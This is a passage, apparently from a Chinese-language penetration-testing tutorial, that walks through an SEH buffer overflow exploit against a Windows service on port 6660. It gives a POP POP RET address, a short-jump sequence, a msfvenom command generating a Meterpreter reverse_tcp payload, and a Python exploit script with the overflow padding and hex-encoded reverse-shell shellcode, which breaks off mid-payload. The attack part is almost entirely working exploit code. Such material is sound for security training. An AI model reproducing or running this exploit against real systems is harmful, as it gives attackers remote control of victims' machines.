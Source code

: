 26.  这里有`.dll`中所有`POP POP RET`序列的地址。我们将使用第一个，`0x0f9a1f0b`。我们还需要一个短的`JUMP`代码，这将导致跳转到存储在内存中的外壳代码或 Cs。
27.  Short`JUMP`是`\xeb\x06`，其中`06`是我们需要跳转的字节数。我们仍然缺少 2 字节的 4 字节地址空间，我们可以使用 2 个 NOP。

28.  让我们创建一个外壳代码；因为我们是通过 HTTP 发送的，所以我们需要确保避免使用坏字符。我们将使用 msfvenom：

```
 msfvenom -p windows/meterpreter/reverse_tcp -f py
        -b "\x00\xff\x20\x25\x0a\x-d" -v buffer
```

以下屏幕截图显示了前面命令的输出：

![](img/4a72551c-1e19-414f-a9f1-33d95e744367.png)

29.  我们将把一切都放在开发中，如下所示：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
```